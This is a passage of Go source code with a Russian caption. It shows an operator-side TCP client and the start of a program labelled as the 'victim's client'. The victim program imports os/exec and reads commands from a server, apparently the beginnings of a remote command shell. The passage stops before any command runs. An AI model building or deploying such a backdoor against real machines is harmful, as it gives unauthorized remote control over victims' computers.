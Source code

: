 ```go
	}
}

func receiveFromServer(conn net.Conn) {
	for {
		message := bufio.NewScanner(conn)

		for message.Scan() {
			fmt.Println(message.Text())
		}
	}
}

func main() {
	var conn net.Conn
	var err error

	for {
		conn, err = net.Dial("tcp", "127.0.0.1:8081")
		if err == nil {
			break
		}
		fmt.Println("cant connect to srv")
		time.Sleep(time.Second * 1)
	}

	wg := sync.WaitGroup{}
	wg.Add(2)

	go func() {
		defer wg.Done()
		receiveFromServer(conn)
	}()

	go func() {
		defer wg.Done()
		sendToServer(conn)
	}()

	wg.Wait()
}
```

Клиент жертвы:
```go
package main

import (
	"bufio"
	"fmt"
	"io"
	"log"
	"net"
	"os/exec"
	"strings"
	"time"
)

func receiveFromServer(conn net.Conn) {
	for {
		message, err := bufio.NewReader(conn).ReadString('\n')
		if err == io.EOF {
			log.Fatal(err)
		}
```